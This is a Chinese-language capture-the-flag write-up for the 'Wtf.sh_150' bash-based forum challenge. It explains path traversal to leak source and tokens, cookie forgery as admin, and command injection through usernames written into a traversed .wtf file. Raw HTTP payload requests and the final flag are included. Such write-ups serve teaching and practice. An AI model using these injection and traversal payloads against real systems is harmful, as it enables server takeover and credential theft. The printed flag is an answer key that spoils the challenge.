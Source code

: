 # Wtf.sh_150

## 思路分析

> 打开网站,是个论坛网站,但是网站文件后缀竟然是wtf,是用bash写的,真是第一次见.扫目录与查看源码无收获.先注册一个账号,点击别人已发布的文章,url是/post.wtf?post=K8laH,尝试post.wtf?post=../得到网站源码,进行分析.格式化源码,发现当cookie中的用户名是admin和cookie中的token是admin用户的token时是会得到flag.尝试post.wtf?post=../users会得到用户的token,找到admin的token,访问/profile.wtf?user=JcO27时修改cookie中的用户名和token,得到了部分flag.

> 继续分析代码,因为wtf不是常规的网页文件,故寻找解析wtf文件的代码,找到了include_page函数,能够解析并执行 wtf 文件,如果还能够上传 wtf 文件并执行的话,就可以达到控制服务器的目的.继续分析reply函数,这是评论功能的后台代码,这部分也是存在路径穿越的.这行代码把用户名写在了评论文件的内容中：echo "\${username}" > "${next_file}";如果用户名是一段可执行代码,而且写入的文件是wtf格式的,那么这个文件就能够执行我们想要的代码.上传的文件末尾需要添加%09字符,这是水平制表符,必须添加,不然后台会把我们的后门当做目录去解析.

> 分别注册\${find,/,-iname,get_flag2}与$/usr/bin/get_flag2用户名,然后去评论文章,抓包,url修改为/reply.wtf?post=../users_lookup/shell.wtf%09,访问/users_lookup/shell.wtf得到了另一部分flag.

## payload

```
GET /profile.wtf?user=jlvfK HTTP/1.1
Host: 61.147.171.105:62296
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=admin; TOKEN=uYpiNNf/X0/0xNfqmsuoKFEtRlQDwNbS2T6LdHDRWH5p3x4bL4sxN0RMg17KJhAmTMyr8Sem++fldP0scW7g3w==
Connection: close
```

```
POST /reply.wtf?post=../users_lookup/shell.wtf%09 HTTP/1.1
Host: 61.147.171.105:62296
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:62296
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/reply.wtf?post=K8laH
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=${find,/,-iname,get_flag2}; TOKEN=si7lLthLI0lJLIJg3Gb0YaojBIBuqwFphk5/Pl5QTLnk+cMa/iz/Ay0VxoKTuXbrvzKSbQ9HGAlFb8Kri3+J/A==
Connection: close

text=test&submit=
```

```
POST /reply.wtf?post=../users_lookup/shell.wtf%09 HTTP/1.1
Host: 61.147.171.105:62296
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:62296
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:62296/reply.wtf?post=K8laH
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1676894957,1676899554; last_login_info=YToxOntzOjI6ImlwIjtzOjExOiI1MC43LjI1Mi41OCI7fQ%3D%3D; USERNAME=$/usr/bin/get_flag2; TOKEN=zXVtEcLIl9h1FCd2AIYJLgJyhKDNahE86pyL7pqcI29SYeacgLUp7O1daT6XZVYSrh/vsV8m+d8ESwPSDM8a4Q==
Connection: close

text=test&submit=
```

## flag

> xctf{cb49256d1ab48803149e5ec49d3c29ca}